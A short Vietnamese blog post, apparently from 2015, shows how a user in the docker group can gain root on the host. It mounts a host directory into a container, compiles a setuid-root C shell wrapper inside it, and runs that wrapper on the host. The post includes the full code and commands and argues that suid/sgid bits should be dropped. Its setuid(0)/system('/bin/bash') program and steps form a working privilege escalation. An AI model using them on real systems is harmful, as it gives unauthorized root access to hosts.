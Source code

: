 ```yaml
---
title: "Docker Security"
date: 2015-11-06 14:55:50
comments: true
categories: security
---
```

Hôm nay tác giả đọc về docker, chợt nghĩ dùng docker để get root với một
user thường, và tác giả giả lặp hành động đó như sau

# suid
Khi set suid một tập tin cho phép chạy với user owner nó bởi một user
khác, tất cả các tập tin shell script hiện tại đều bị drop suid do đó ta 
chọn một file C thay thế.

ta dùng đoạn code sau:

{% highlight c startinline %}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid( 0 );
    system( "/bin/bash" );
    return 0;
 }

{% endhighlight %}

# docker

Docker mặc định chạy với user root hoặc user trong Dockerfile. Ta
tạo một container với lệnh sau
{% highlight bash startinline %}
docker run -v /home/dragon/Git/pacman/lib/libalpm:/mnt/lib --rm -it
jessie /bin/bash
{% endhighlight %}

trong docker:
{% highlight c startinline %}
gcc -o test test.c

chmod +s test && chmod +x test

exit
./test
[root@firewall libalpm]#
{% endhighlight %}

Tới đây ta có xuất hiện vấn đề rằng một user thông thường sử dụng docker
sẽ dẫn đến security có thể get root, nhưng dùng docker với root cũng
không khá gì hơn.

Docker cho phép sử dụng -u option để override USER trong Dockerfile. Tới
đây, ta thấy cần phải có cơ chế drop hoàn toàn suid/sgid khi exit khỏi
container. Docker giữ nguyên cả uid của owner cho file và directory
trong docker cho volume. Như vậy việc get root thông qua docker rất dễ
dàng, cách tốt nhất là drop toàn bộ suid/sgid cho file thuộc containeir
và không cho bất cứ ứng dụng nào chạy root nữa.

Một [issue](https://github.com/docker/docker/issues/12949) được mở trên
[github](github.com) tương tự cho vấn đề trên.
